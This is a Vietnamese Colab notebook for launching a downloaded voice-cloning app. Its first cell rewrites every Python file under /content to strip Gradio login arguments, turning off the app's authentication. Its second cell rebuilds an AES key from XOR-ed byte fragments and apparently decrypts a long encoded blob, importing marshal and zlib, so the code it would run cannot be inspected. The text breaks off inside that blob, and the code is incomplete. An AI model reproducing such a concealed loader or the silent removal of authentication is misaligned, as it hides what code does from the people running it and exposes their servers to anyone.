In [ ]:
# @title 🛠 TASK 3* — TẮT MÀN HÌNH ĐĂNG NHẬP APP (TỰ VÁ)  [CHẠY TRƯỚC TASK KHỞI ĐỘNG]
# -*- coding: utf-8 -*-
# Sau khi TASK 2 tải và giải nén app TTS_CLONE_100 vào /content, cell này tự tìm
# trong toàn bộ /content và gỡ tham số auth / auth_message trong lời gọi gradio
# .launch( ) để server không còn màn hình đăng nhập.
#
# Nguyên tắc: chỉ sửa khi file Python có chứa "auth=" kèm .launch hoặc từ khóa auth.
# Có thể chạy nhiều lần (idempotent).

import os, re, glob

ROOT = '/content'

def _strip_gradio_auth(text):
    out = text
    # gỡ auth=(...) / auth=("user","pass")
    out = re.sub(r'auth\s*=\s*\([^)]*\)\s*,?', '', out)
    # gỡ auth_message = "..." / '...' (kèm dấu phẩy thừa sau đó nếu có)
    out = re.sub(r',\s*auth_message\s*=\s*(?:"[^\"]*"|\'[^\']*\')\s*', '', out)
    out = re.sub(r'\bauth_message\s*=\s*(?:"[^\"]*"|\'[^\']*\')\s*,?', '', out)
    return out

patched = 0
scanned = 0
for p in glob.glob(os.path.join(ROOT, '**', '*.py'), recursive=True):
    try:
        raw = open(p, encoding='utf-8', errors='replace').read()
    except OSError:
        continue
    low = raw.lower()
    if '.launch(' in low and 'auth' in low:
        scanned += 1
        n = _strip_gradio_auth(raw)
        if n != raw:
            open(p, 'w', encoding='utf-8').write(n)
            patched += 1
            print('ĐÃ VÁ:', p)

print(f'Hoàn tất: quét {scanned} file chứa auth/.launch, đã vá {patched} file. Màn hình đăng nhập đã được tắt.')


In [ ]:
# @title TASK 3: KHỞI ĐỘNG / KHỞI ĐỘNG LẠI TTS_CLONE_100. Nếu có lỗi thì tắt và chạy lại task này trước xem có khắc phục được không nhé.


# -*- coding: utf-8 -*-
import os
os.environ.setdefault("TYPEGUARD_DISABLE_PLUGIN_AUTOLOAD", "1")

import base64
import marshal
import zlib

from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad


def _reconstruct_key(parts):
    from functools import reduce
    return reduce(lambda a, b: bytes(x ^ y for x, y in zip(a, b)), parts)


_KEY_PARTS = [b'Z\x1c\x17\xd6\xdd\x1b\xe3\x03V\x18\x95\xc5B\xaa\xc3\xc6\x9b\x8c\xa2\xe7:I\x13\xa0\x06[\xf0\x14\x8b~\x83d', b'\xfd\xb6\x8eL\x0fbJ\xc4\xf6\\\xdb\xf2\xdbu\xf5\x8e\xdd*i\xaa\xe5\x01\xa4\xe8i\xf8?\xb5\xed\x08\xa2\x96']
_IV_PARTS = [b'%[\xe6\xcaJkr6d\xf1+\xd5\xeeI\xaa\x9c', b';\n\xaf\x86*?s\xdd\x12\xd9\xbb7\xaa\x8a\xc6\xe9']

_KEY = _reconstruct_key(_KEY_PARTS)
_IV = _reconstruct_key(_IV_PARTS)


def _run():
    encrypted = 'TswYQ_9RfQdgSIW_E9ZyA8?67{h*R`^eb`)D3z*hsNmQ*LeD0G>Q$B^nF8NE@fDm+O^wD2Vz9J4S+&p#iT?g5Ejch?_N1gav|7p*+f^2wKnu9<Ine_Q8!EofDMEK3B8w2u7$=m_vN24Te4lh|9d5r02^P@Udv)PiZ0JhqC?Qa!QK$EtE{ZHoo2UcJKH7w1if}bLLlR_B={)l8WHCf|0lv=Chu$wka*{p;5=vTvgQ$QMH4dgU6$%5yr0Nkl_NXxx<Z_jSB{xjnkgCRYbd&SUDMF_81Q*m2sC>rvg~Sbr+5b|)+@9-2o3H{$lt>8Pc1_2OvQu;cI%G=(S-=|U;6TS|k=mk4#eanXCe+fPH)bJP@9SZyHSG;EwS?(le5QZWsv7eYg~<W|?9;n<C`tMDS8CQ)qqR%H^UAfyca`JnE0>d-NC{-X#FOGdY4zIeuEU+<V)pB`D?~)-2lgwyys?OlGLJekj|V(7p2t>qD>_Nlu-(|HVt;lEq1HE>i*}0*aAmim7~1QhGZv0*Uo=fv&%hnM*#LfvM_!0V-1A8_1mc;h;qQkY!TJ5aeu>rc+=)Ckxz@aF%NSYYh_{aj@4ZVhzp;}oT+B}!O|P#(8bw!{5LGrfTTbXBLu?BW<+m?GaYCZU2k!A4C4g*a6mUt+cCtgWz-Wlmuu#z_ldMo;;v7f2P_@IUnc5PaS+2~dN&G)X<#eT{ca-lg-JI)n$B|1~Hz`g5*wm6JnoOuX)v7RDW3;n!m)TUX#pDJ$-NgK~^X%^76zE;`Wj^3JkAD}5N(1RGlKNn5r4Sm!7~N&74~kV0737L@>$#4KZO+0^NJ;`2B45Obh&<n;QaVb>;uPXVADk2KY;t<}a@0}t>-j4SO~q&I2bEP}Oxqzl8g}?pE~??@orer>WM$|NDWX#-t4MM{8XX-Il|0D?NN2{)&F@PegE7Ukt_m$6I20wE+#?YBNh~5?C3|29QEg>;Q33IN&~Xh=;hG6^J@YJZev5&tWdsmhX;z^ygrpi19?pSl3ub@;y?;_BprqOX@Tzxq13icHo2oiMXDTbR<nN&3aY>J*>fq2v0D%p2k)n2tMNDzGNf4wUK{d<`<jx7C5rWul^c@2Kwq1?%OvbFUHj}t*=+_jt1v<iWxYa$Ev~7gytyWhgyjNXyyYEf)1xonVf1n5YgY~3f7&ah}{VH{#x9zS4p_J_}j}u}!WAb+CCy6-n4>cudu{hu+-TwZP&CZCiCQDluywE}{%MSKc%DQxsK&kZszZ{UGDIfs2*0;xBu%`0WzCUZG5VUfK(WIzs18C9NYI==BDM~ROcpT3mIa}EkK5h426(|Awk(3kcF{0l(Vq6@WCm_sMH;%V1YVBr#i!LOFO>XX<KlN%x?%1R2G9ufqz5)^s5YNif)Z$Y(l|Op|n5UV{l3kS2V}`)HR@3Z3z=#z^?E!A_i6Jm&SdY|7iHlOS@gT1(iCefA5<4(L0ig;$l)oq|?)25mwj6=vcr^kTyz#HIZ&As{!np<3?Vbx4f+!l=<|sZe3?bqqi|y=Jx}f9hd~GKIR4>zae>y?Jq7?_N@I!rp%>GDnzx|3t{jrl!14TviG$!j?qiq-F9q_fEu(X~$`ni<GS#L>3nqf1jWOW(3C6gAry=h32a>gHmGuQj>=srrR^)UCuSAfWi%|s@tU-5(F@zExn_zWb3U4_S<<)^E~F(re!g^><9vg@uR@MYRZn3%A}Vf$+itj|4#cK>u7<b?zfR^<Vws(ggv$2|rGbk{l)k6M5b){L05wgqq{Pug<~64I}-ZVgl93r(qoJ$phE)W1*0@R@ev*muDtFnsIMA*c>HDDfK-*Ru-A(E?hVFYON_WR$zPuZs*<2!*Vbc;RqW4VwN0mV8H*Sa{xQ8ynY83RQy*tbDmUctxvR(ZDqd!|%I@$Fmc7hxzJPE`q9f$rZvp!p|Wq8tiSQkkT)FSP#P!eNr5LL({R|At2L!plt_!?A8m1kyOkS)r<ee2nRA$rNNSbERgQ)a)xc<ma7oCkyvlkSHb4u6F3}U9<I(R<jy&S2bP9rzf&qNhV9c8MrTn|u^Ep9U;p$6iaJ$$h=`K`_G-{nDnAYmJoLd8>RZP8;fds@85hWh7TUwQgc@<1FY($R`x;r?t`w>anB(y5ze81$eA)X~5(*<#;D3696RI*`sL#X~^^~?M8Uy<1cxrdx(*he{Q<b~f&Ndy6F4{$U4eyuZC@Cpi$4c`a2Z~@Lvk8t_&mJT7JL&;%bcQ6ms|tOL?oFO<S^AkQD`Bir)ND4_>Td73L$*KYjV6hIPG+g~2Y_d%Fa`iXnTJR=K=yuLLzXRu9FGvmMpRMC3C&0|M9!N?Gx?x-F%Ckh!%ei?Drb$d0$Wp1N&yqI7MS^X8E!BO^(6@uJwD%A)4d)v3-EeUIu<%j182Dk=QxX=5d4DtS%;I0CRtS%tZd-FI)iLYn<Ocz2dpgFaSZWy*;un~@t{qy0e@-;33SgWS?*2mQ8zH7Z$3Km^oiuUt1NFjTzlXMY?%jPfJpLVbp;R__%#Z=SY=#94}I=1*Ab1FFrne3ZCRT)tOcO{zS^zy2e<I4HF9n;2z<ECR?>Eu<@#ltU?DFmXY<+EadHkg<x_io|L}sJ6y6#Ta9vP>$rG{}>UM9o@3*SxzNOMcZwvnY9}Wt$5s#7I(t9phSq1pHrSwa{-skQBkg)-9NFTLlfPLoSEux^<tpB74%JwAYf3$C~ikh&UdE}l}7IGnrq&&U);uEOYCuIC_aojKHqvO(On=Cy)cI|LJ>lmhor7t#0;^~OutYD?^Ux6FmJw+5eV}&7l!q>=!9O%}L`%;uaJ#i?3^<(v$!kmTeAE~DP^bW0<!W}Ki<SVRn;Ff&xeKOojp^@L$1NgpIddO6Uq_GuE1NUdb0$Mpj9j}dsPmujyMA8A(2FjkaxgCY>8$Fa7@keo#$AYC-ih_ep+m~^bBeO~hUCDpYgFSx(ms`#nuQwBbhe>iw5mpd=x%G+U&RuWk^?Eqj{*wKLe|f6&94}}SlP<lvG$-nuxpZB46x8Y&$(#CrGPjTqIYRg@a!P02m-W4s2(t~K$MRmEFQRmN@w+ONmWNw9R7{Ix%Il3y+#z2NZb=Njfe~?tCL30U4E>6$%si0G%vs2^SE(?i*j{99*SzLLYuS~$DS@ttQ*8GKNMEADu>%$`<sv+TeP;``P7&oGMfdH$>uC%AR95U}lgm5-RbZ20(qgPlfQ<M?nkfy3Pm~u%K&CsIc`ve&5OvK2A87fa!`lF|CXBdTnD9CK7L~c2TBVHOP?He%_+?38YwRqMu@`LE9DhfHkjdPa7~huqDmq)Lp@Y>nrt`<~)G-+teml(`A#W{cr@w`91Ji@V;(G+xF&$)hi6T82i}I#6ylt<jRsH{O&RP=m?dX_sU#@%|nAclZrH$D<UX@t^Ymbs(^4^q%=9nz=FZ~nWZDW5n3S`0ZZJb<#)ntE)pIb3FC0`JAUP*u=7AjbMd9y!u6@q846QVdi<;D7go-ZTJ_@|84E~{0*#@bUyP}&=^)&wo!KtBMmd`SKq^r`9=BVv|UDOV|kIvMm;q6zmnd%Bg_2jlDzu;eNICD^yQ^TJBh0zEI2gIjEgd~??ekSv>Rp*eq`!y^fWO*=pNfxmlH9f{kSRfCNWl;a)Y#&kus5FC_?hsX(7|3@4&ZQ5s%_7nSw-$Zh*%Q8-J%B?XrU@WEg+`oL;abw>=9+_PbgIE0dfj}r&gc8VtQNZPvk>rdx4<IyqW+&ny?3VP~qNu++d5GuNqllFOJ6SWDMZGHhUk#&~!;=v)*UOd%>JiN~Nv$P|uESyX-JUIGR;d_I*1ny7M^Sp?Qf?FnK7_v)&%lmbP+uX}oy@18Noy5G1#TxQIZxEhD7%pJvKse37Pz;&+f@hboev7HD#%sIU{{-N^v=yz@Sps#8z_8Ud{Lpm@G4sJ*VvfoW3!yn`YRaCNoGGyn>_m<nFm;eozIH@-p-N%Z2;txX)Rdr_Voo!`uq{PN1Um#8me07HA26M1%7us1t#L`iPkDeTKfF>M26kbMFMjNdG~F(--}zJOne>n&x!qSL+4@IF<D@CXGACmb2eP1xC5Zq6VVHa&f~t$2~?u)9@OaZ8lOwi50v-<G#?Hrg}!iV33E&M(WwvjBBh(dPz$a8HD0b>iNjSSM;J+^NspsOBk_&CHo7Y+%gAKS=h+x>6R~j~$lJ%^q}KO9{JTAy2|pXR6zwre<MfvpJgqU3jZfg6(tXo%_DGNrOd`=C00XXra`c7gnr|al!Tm?)-K_3c30}(jt@+^a@>pUVc7}6J$Wa1bbd1(O#V(Wpyx$<swO?h(Y+l(sED0P-xzeOOG?gT)J81$nxDXSk9@ZmrL`d?$9-5&7KOhs)ro6LVKd0@V13?62P*Z|pjANjas?osvah+QKUGium1B&e0FZY;*Z=Cb5+-!k>!LHl1(AGj;eP+c`zO<iR^=B_JycovPfOi(jNyG99mCGH-cyAxR!J0Es)_ELJ4{~{py8R1K+u=7X3iTym{6ajF2)85E!KM}=x7)ZWEMQfdM0Q_)2xOwEzx|<($&6P)Q`<EuxbeQYJoqfQK%J(NZ0wlk2kr>Y%pu$Yj2*6+xf6R`DTX`&Q8$L+d|x9{J7|~5XUl)@xi9l3c-Co8-o(BIzm6AG3r@Pk_0l*}Nl`~4gxvpo8;zjbHFv>wuMI68E3kuO$pVaUOeb53K0k1Fr_3<UHy?-xG)86F%6kHBNv>Z>JLC6JAK&-8mOQm_8Z}*`2wcV#m9yt38kPyf!%Z}>g0_jhb6q{zCF#Q+#v0VK`8NKDL@2D@cfxZ<@T)1X8KnRYbrUY+Yd>rZc+eu`2@Jz{pxA!L+-dhJ<%$Y)i~E;Aa5bdOu#YUPW}G&f;w0)GG(gt6!nOa@l3TZNdIj?^Q=h~E7W}%C;gvB-%0hTMSpP(28Xg7>om|X6r19kf&L)mU$_%6;h90s_O;$+yn&C?ZUw40MPlA4&unMO{4x;I+Mkkqn%9&b?9!#ksG$;MgVW{T?^=X-+q<WxYyUEC{{FJbR`fJ|Ppk1TKuyXr8GCB@fu?8#~qgzNrfd(~+4+0<z>Y1(ovfT&)QM!N2R*kZIi`+tVZgVLjee(&hDW%7Qjv?!)TndQ?Sla}zUL}tl`nNb3S!-`}1%SFHX&Ck>^x;yvY6?St8A8=oPo1#VBz{XK?vMY^VSCbHU*uOzKBZ>CeGAi26l^#Ii}F1MU5PlI3<w0vD$;9ak%jIYMI#_%Abgc7GNp~>OV(y^?Tv&bjO9+)<UtV#m~0f4;Q`=XPJJ<dQ#BL300v@`{5sUL@DiX5@8kU8p0n91@eVS>5QFj^NrKMeYpt1|!|z5A3$vr$-rJI05x#pY1)hcZ&rcV4<P-yL!zM)mzOP)E_c<y2<hapU%7^-KF3_mOM2nC9BN+6?h>A!}3R87Rc+fnssym0k(J^V{EsqssB&+mqDtpNYF<$K-Ur5Q}LjWr31TN~&jz2ty?q)W)cL&c03%@+7D8>&-J}PI#V7Jb*g?8NT9@)DO$Zl<;o-$!PS7RpyQ7w;N62A&hw^T*_8KTBm%OT*w>r?O-K2!_^Aj?`*rLmOGE47#(-jTV>fsoVa9(4I{#oE7)0xxd>zG4-||Dm!f0Lutjcdd=o71fTT)7(u^py+j7WrO>RV6%^K%hh~{D=s9E7x-JfhbzRmDicZ9;II<3DzGX+1((oGa~)h<@ZXk{Bk8_g+!vCIEM`>SZnL(zK5OOk9ebAfT<$33XSp@^Ut4=%tHO0w@YPa7QQ-*tF{jU18PneApE4w3S5OWwm{UxV&a6rJ1&lmsgvSb%Kggm++UtczAgHo3xrZO$>d>7kcum?;wgu5qAO#+Ryi|5n3~C7Y$NJ6DQk^=4fnD%iO%O~GtEHLY;pfJdk#AgVb_pKAW~3pLw(paY*#gl>KgVJJnr7aosH>15(>JV#{*xV@xqOn3p?~($m@aBVyxxu^lda7#fZBzB>;VgMlr50|d@PzL@B$uT5SbMeYWAjJT>B@Fw+*bHp21S;3Udwz9Ff%14;c@2*K9(w{3!^aB}mwe)?&+B$1DX(^!;$7qt4&NT04~M0pzXZ3<S>rP68n5huG=HmtG%)`5OJnuCK3{5Zg!6=UB)3C$B85IOY2b1Vy3Kq~4p??1o+Gx1PFGIr)mpdXWyNf<qx_BQFdZB*i_HSVp`~6n`YU#avp52=|ch-|cr;c*;Xx;D#lkl?t{suuAaM=HE8?WHz5{H@n!<GwnXNyF(4|qi#HIVOF4hK61H*`IcKM+z|XYYih~ipJr+JUW{rMJW$&I=*RC6p`KUYl-%$UKoJZjTA{8wRurz*uwFg9v0ibQH^RZk*pre-z=h%ecoTE%X_8$&B#F%dsT9ylprL=nZ~`<{`JV&iSL#07z&Dt@wrEqzXaQs6WodK3j4qESu+^I_A)f&#Oiv{QDA69LS*yfM#V{mSzBNGfUN*@2&ZVk2k;FYRnnk9LWJ~(b-y{{)>sL>$UGS&(N($EhTd;4>g#8rNJ;92({=Gj#HJqt`!(PqM6ea}sw|j(=h+?Q~X$VSgp9&${MCA-iv4=(PD^Mh}M~QLSdAr(1*2RND2nN9RF3fZpC>HM>*_}MdLf-J1VVfsiY7xSdKX?A5b$6Lx&<p@?1U<wfK$jVU4u|DIKm<$6DLI!txfVe3S2AoW2i~e@<tIu_*?REfWdfqz8KC@~_c%#h=0C|o&Xi~=M^d=><&|QAJLzNyCK+R~kc_wUCl9>I_a5}$__begUbz0|$LZ@#v&c}N8}dO9=)plqUTQTTAa!zFHIi?{6pZ*)329jwhzxS#IX|W`epqg9^Two(^M!o7R22LyD#||Mi$1P9BH%If^Q0m8$1exIR7!jDkg8@5+Hu6s=3?E{&>zC3O<Y&sJ781-#}jl+@r&Frt7tyJwn|FeL8wfd7dUV(BW`~IenUJ)T|{4#V3gQepam}5mx&l81b-BcHI0JiW|$`&+)808w=M3&IN>}rM_Rw7XledJ=^o()jw(E^sMspF7eNXV8r~9CC=ri|zUq=1Msyu`&B*B&pV(+u&W@lsVMu0K(rWRm5R*(7NxE?hoDA?38rOH9H`H0rLntwTQrj<n_52b4{KqIN;zy^*Ba8^4PaaR-X#zyt5E728CUDD<1<iG+a0ATf)hvJ71(TGEalyi4x6k{{pE!5QM)^5GEf%+(_(^#;M0D*^*`dahwa<~E2)XPNI35Pmn`hYqs9csxLD&}*5^Lvk2#v?#AggKZrxU&beJ@)ilrzD_^6#E|xIr)bCFy&iWmgI=9@@y0FC&W>;9<?*O!Pxn=@xyZqbVt)ykSavn53^XioY}&8^;bplm`~9MC<WVx(lNtN!Di9_hHA>5h6wHQ0JkFP8smSd3<2gkBQ~T?Bic&j2ekHw2C;q)tLX{jF~rp5OL{CwUTo!`Pb`&?a;=cGW(CN&VEQ%7b?&JLQo~N%=;qNtL#h^L=UM0)VvqL%{27=WH}!DChtWb0TjC~2@6xU*Aw$NPrdo=@yc(NkrXIdqR*6#*G1n<&k^WfX-k-#%gCS_s?j5=q%LA&r?5v<)6k~TaH#kK<1=M!OB+%1NlSf9{v)I2z1L*kA(wNt_XyuxEk1I}p6urDu%tIb<-((E(IYc8&JVZPyg!GGL?T$wK?=jC&ds)UGY3L?1w+54(1!i^J4BFCgeLgxyl9Xg0CPIm4D=9)JxgKPZso-Rfl=2!n?#;pwh2B)+q@}@c+j+bLM*uBaYeYl^z&WRhat<T4A^%y3aX?@Keo36pn@0SJt6R}jLi5Ff{QR`#RDT>q;dW*Xf>Q$OvBVB*m#MBw!>}|b15xpzDJ)|uFIN*IL;x1ivS<Bi11|s(Zo~<x$~WE+?BnP&urT+VRMtw&m=Wz1soeGW#Udb=s$|t{Em4gN*L%7JE@7vb1lUgycf=~hKl2JzlKN()V@+T(?5(s^cTtQ4=(Xxx!m^yJ1LCy_~CimcdA7d2e2_fLqhO&qf9!83#_w93`bZ&o-HGi<-prh_Xa(@zPod}_>Xfv7e)=ZrDr%m4u4ndgB7^mB=rNyX8W6vx|?hyWHr01M8U&x(zR~N@=4HiDm>;Je^}S$c%DIWl7l(OH?8sOp^e}Ah$zIskWl1yMU4J-e6%J4#+uQ2zGN0U9N-}|_fReh#aD>RQ&sHNlM~^XW(O;t^q#ZtX$L=CqaF_lW1QvWMk+NK9ah^Bl0~pB1BOE=75sb<Fc&2!A8TtaFdm6hs<m_?@G1Eg$q;M#OvHUAEtqM&WKq7GC!ogg<YyEYL<|j{#oKpwCo?$bM4Vc_NfU33<N~9p%tejgqlI4fdgl2V17OOM>^^VJ*ZUiU^^}Wv#wQ2Za4F$8*{U2;SFu5WIjB3;Zu||^KMFxhH{%I`=}rMF88Fy<dVZJV3|*Yp_=ASao_BpOoVH1dp-gNCw!=i0Qo9;}?1#BUFo;r@>YFgZe6OIvi{7-Opoxn}RMirV#r+u}&qvZ@U(#`4R*BEmY?Ufc^K(qB{F41M>Y>5v{I$>_ZFCtc|8k@;9=LF4tRN0{poa>HCI*_Z%`MO-s}FmGF?`r28t|Co9}RleZ*d!&r=#<Zc`;C7B+8$0X;t&FW38$8^08$jmTT|EW#YOd(>ds5{c!qz!^?JU000($YJnFpIx)}8PzT#mBf0n_T}J$u=&Z!KuU-+^;@CTA)-^jJQaLj<QqjY9AV=sVEBO9>LaBCs)AGOwX9tMdt6w|mYAR68l^4?5Bs}8F;287zz|yY!d_J{U_nmNUg3^$kVbfliF5aZz8n>me%;`k(-&`E)-U+qeTMO8J>P?l*n1PSpKybaPkn})H$J&#193~S$lxABgP$4YXcy{2Cpdm8p@zGs(do>BCP#3n%*O^&%EJOkvb5jJ;<Zb%0<4AZ4c73#?ae)<8m(C|Y>h{`!ca93Ejn5UvHlGW5ZD60YMjN+(_Ls4;aFPn}T2Gjdey0x#%B2eAW#F%{wx_;jMNRs*sl-)!l>_`k?8W4j(%xOA2~iR)aDj$d3dH(mNb21`iN9Jb#ReGm#r|wF-FgYBi5+5iGmEzOJ{|R+(k!pu<f`(P`J}Ig|MNnPL$|m=oMfmEyPt-6!vFoaL>y}QxIgKD!{SJAP=!T5%CP@O@iHoyVi&{hD1OodSlaKh1^8fdvZ~}GgsGYKs3gy#2^``nisrXaapA%1>tQMKYp_z~eg-D%o&>Bml;B7DP4-hO9)V!K&&Ph-QyK6I(X#CLh3Icr;DfPatx6%!p<u;`>YAC}^9>*fr_1i`*df87zutxmt_zNi(}tr>x05|foJ8h5zX_T!ErI0<v)G{lfetSvzLx{@6W`@c$hb3^U^mn-3Nfd>7|?ewF0P*&=^${0#@1MJ&(DzS5kDl_mWAnS!AHr4lI3NOgEdqjjuXY1%X1|LA60n5w{G;}Qdxl0!$W;a<3Fwq+n5v!1~?5~Jf8^AXTu1XM@x2h6#g^ophk@X)ehQS!j%!#wp%Q3RKPu^w+2PL0!-mOEbhT~E`$t)YI%&19G5b2a0hL}y+IT^2Wh0}fO74mD)bW?SkK5MGLL#1|B2$r($ak&Z;XlFz45rNu_?^2%cKJ7-K>!bk`w+UnAGPExxz%{`ZWgIom_BAE*2Kz2I@`$EGHesPqU}ZEymN2r^PS-qkI%6)@DOgQQqYBmNNg6b;)^m1tNf(S_M$b{k5b*jnh>;oU5~5Y+f2m@jr+gVx~YmF6(On=p&K1Hhed+3OX1-JS5Y=-%9)q?-23!ObsqM2c92Pv*vA{H}t)gI@&YevEF-u_I~)W+Xs)%s;mD^Lde@aGUk+Pmba^J32HhoE&X;%0Z3Mb?>-6EeGlrhbxBu&MVKr?e~zg}<6O8^l-Cc(#PH#Zca|SF0A#`z&S2k-nK$It7%5~qpO6A&=9mKP+%QY|OyOO;AR23}DWKli_b}`n3t{q$9DIahNcP?dZ#5X}%QM34*Tem1AubX#gj&Zl)y$Fm8~45zul>LvdLu({69c;J(a?E+pVh_Xhy?xR_{#F%s{?h^6Q;8Qg@ao{pYu|(HYaL0_Lt5bLn;G1#1IO0otS?+{GE0SJW|0RRFK$ygF69=9>4c32m}Fg1C;P(J-xWhb<USB^2SEV2{ejQ3wyJcV(K0EQFWsh*8_v+V_>Q@9=X*rp5k|=MtXCH#=*+S^t`D3MzmDPOOmN#rYkr+0GLJ>utdv*lrRLy2Bpo%iao@q6KjML_YnefN|i<3oP!(gB)GNE=KSZgAX2Dx6|f?ROt!~;qYQ!52TV#>mVf$|2_6j&Wzky*p$m8184mRyDN)dmZMP)dT)}C0BeOOg<w6f3E-Zc^Bw^HB<GGhJ&0I{DDY6@N9}Iqd>o>uU=+g=%GAtRKc49Vs#@i?i^KMpL3G@W5mlgujftUmiN#mi+A}CB;TIBWY(qV|;i($I|b*OKU2;1D<P{!1@h8N2)&y)c-=M^kfVdqr&8P}olzIpqV?n($iPpRv1-pl9&8#;zxlkThE3atFi5ICP@=$=`v!WkN(g2SZOybzq87rU+oG3S;BLaUV{nbz&|8wiyjJW-M-_@f0aFC_&J_4h)m9(ql(8W+9ZL#?_c<&!&p;p%*R?2D^9lYve~+=;s85WG(WWg2r@5P}2;xY4H(j$ebg8va>nLW7t046;{Y4!1~nJUbFY2-CxvOJ)Wl90re$gpD_f&E?wnetbX%##Nc5dWc6~yhc@UHah0r?!jtaOY@!7K{}7E9FwRqZ@Z}xghSnz-y-lO%up%?Rb`h_W5Ds(r-^Ub>p?4^V#O21ERWlJzfGLm(XdOe<Agh*=$1<NDvj;I^+^Dp@GMCg32GwcTmcD5IJF%SQLW#R6GEr<lHMoW{;axG&EVitf`w<^sa)*1d;&M9;vimx>0sYs)iJQPjj6Pk2_yCePt5r`yfH_0r(^Tmx_P=LiosguV5E;6HL){hSfzM4`M02+R#1*BF&Z@dYRtCCCtl}TNRa{0+fVu*Q@%|tE_Svcw@EWiTl?v{0053Lf5vWsoUY6pG4z<p9N3ECzKXZt34|#tN92%2^hBo;m!{<BhDTmY4CN`a0m(AMB+@8X%$&QbGgaR`03xaIyl{W?QpV@}$@EH_yw`rq%ry9Xsj!H6X{VV&y@7=zqc2H6er*qK9%LL5#`AbtTIF%k0(#z+3~eC_M+XmyoAgV^;C+m<^=b;2Ue{-OuXD*`1({Ev3lq$ywgd(5y9*|H?!P|--**5`o1Qq-FuOn^2ANhHCe;BYL&?*o%1taeE<#HZ+XXCcvxN=<61~^t3FH^g6-gXE6@M=d<Rm`ca~=ro)DVn7<g?hvx6UEdkm7z5(7u6;{2gt{+&eV_bcqGq!R%S5B9Sp`3Xgy~-8U#ON!BSQ(Cgh~t+Gbp={>H=8Gg|fp@oJ{h?@BC^x|?GSYzZDTgK%?5m$X{rP9*h*zv;I597ikS?UZM%QK>X#wj~HZtWJwO3uJX*!;dJaar~n(GPx^j3o=QkCzJzogXFvKP5GmH^UD<2#Zre9E+EacTbU-U1E&oM)qE_`Qq@^7gytNv|U&rkoYUWDWMfS@t+s>?ebV*Quj>%Fdb2peR>|?nz5<6aV-~Vbr;f*HNNFukmX+h%705c`${S8mOcDhsHin4i--q$1P)?inn$y}|A=}Gexdv((wgoCp3gPT8{LPMT#<9bFhW@BP2D>N^eRPr{m$?hTJl2LHjKQ%Mr*Y{`Xfu$^5f*<0r9dg3hpafrTaZ3P_;dIb0f+O<=FnvnqcwqIm~3fDZE8nimr#~fS|Py!y(UhEQ;*@ZHi0vDN3xMaEGNt7l|7)URk<xXIEn52;#W7hv>i(ip=oH)q+a=hUlBsbFAYB+?VkUn3L!oFZD%d44l2fBCJ0>vN2mV1xKp=R%ShWZ9sf(R##ftvtEkxS_AgOZ@p`_hEA*a`<S%6`_V&PcfOI6dF>etinB0?q1_;jdW7H@3<&!Y*`|RM{IG6XIpX5$MhLVA1d6Y`VmFZjstJf)m*yT>r_MC%NF3>5DyZc39Q+{PNK5|{(+Wa#q=Oz=D*N^Zu=NC3I~IZPH1?@Panxj%VYD@SkDP3~0gtwJjp<s3Hi&qNOJ^zMMzqSoiwf-IUcK<R)5cI6Jg$Ubi9BB=n+AQ@sc#&*3p<E}3B>j4os<9*hP+SBhRGR=f;MbjRPafNA(_C4bhtSfNIu6@L&#cklM<okymwjn^dMLFAS-b;>fU5O*Q2r7nG-r@lw@N-b2&-b*)GGBT$m{HJTYS?afjZ^>h?2(53l`GF^-<*65yrva;*?D)6h_>!e0WfaFF^#PS9e8jk7ovP|iH{Yu4Li*PG{}n|^}AqY}(yrTv=db92~aiK_zzqC2uaz^1N>tkGBz&9<qo2`sK=S=YoE{IEz~=ABNc^Sc=pM*VO?j=7%k*Q$!dV;Ny2!&G0oW3S45hk7T<ppnXu(+NXZWbPD|>G{bcYQ9`x3Krab*MKa(DiN-`DR%VDC;^ua9<>l%6kJjxs(`A?2ni(Tb4jTJVl!pp$*K{&5H(fgFyV3@t1k;IZn)N8+&GR2ZbDFlN_d^nvC=;on40M(i>zr--03n2Pgmz@rd8DjE5dSK(ci1*DTKjPj<6zuEVkHN$F*wagvx{TXMZS8^8aQz44gLWHVh^qw2v7KJOqobgb!xXz!JJ|1q4gQ1K`}gxGJ-gan|E-HvS1Xm|R%k*$ZuSV;DV)cER~#>~&H~DA*eSQP-zla5kIaa18QU?BZ_-7UaX>BhMUT31ReIf=S1aJmhHF9$V~K4J@#tt_eza>6j`r0)udWadT?9var36pKResN2(p1gcb`u2JDWakg~DF*+3q>L_S&Rz|ZQqH~u**P9Dx}-NFe?ZwmF*>tK3)FjOL%iA_l&|3QvZ1H7!x&k4w2D$$d_v-V9lYbq#*J7yfKi@^`7r&Z9J`jvRmYE1!BcA!Ipl;EH2i>dd}8uLCsZtd3&yE9J%H%WE3kEtqa32DVIQ?m8RIg|e5<9~S>ihj9k&UpQ#jO0&`uc&dNGcuih_N+Xk1nHJJ)S|AQHKN^g*)0`IJuHLorq6{|EJ%^i+69h8RuZULw%=tr-u!$cGoY=U5p0pR_XKsU{%0Fe7PwkULs2%wl>p^XL&MB)vRcJ@h1qWoE@ytb8A|-BP9Wc9RA!;3j#STtM@?4O4}SCc%?TvUJ#okZ^@(G}es~S0rLPN`mW|l1ZwLmW#LNV7t>)6O-u5JO2U!vB_Xj}F$P;@LS)rR;>8AMaHNpeT5f|;mtPFp>h_=FW96AxpX8V{;K_z>+11j~X{@v6aQ~elM=HGdLR>jx}zIN3h#E<1$K8RR=6A61a&0qmKC$!*+0CrZS|8%z>gmK#TG(*O7B7-7}e}UF<^EGX)y*Q!x20!v%55AkVAyx3)04r5b%>PhC=jXBxXzeH#%fG=<l8Z?mT}*k$25$`_=AHm^A_QZmSQ*J3MJ(~!PfT$l_$KHY58JY?HW;1orU(`Uv1)%X3+7)+VY1%tI~<jJSFs*CH2agYputzThW(wY)l2MG{<pUvH~WwNRK{sFhW4GtT#I#Tp0e@5W$n$?QLke4?j^&eQZ)%N0Ku?Tlh<20*|@3&JZeTc0<p|yp_A{#2UDF~M7M8V5qqWf6!joe-j08UhYHbS(CnAxBoDeZ7(7Uuftc*^Mn$YlZ>@cnLs^Mkx<Xa{xAgK4QDbk9u~ZlzMuZz3qQtAI(_o&|?gW@BCFq$m&#*%P><3{XAXsLc$QkM6>?q5e8SERaqZ)MiID3W>Plyr{Km-`s_>AqzGa*FS!O3m=6@+WoCE!k$q%Bh%&PCR&4l^i^`uOT85?;lGB>Z~TOQL{89o=}Bo_%do_|I!Q{%PoND0J~Ysfj%)2-$=Xv!mg}opN#jxoZPbk%Ns#%Wo<4QhTg;_g-!&!3zc2R|THo#D*M=!*0l}-XDoeq?y#wm!8>$*|FV_E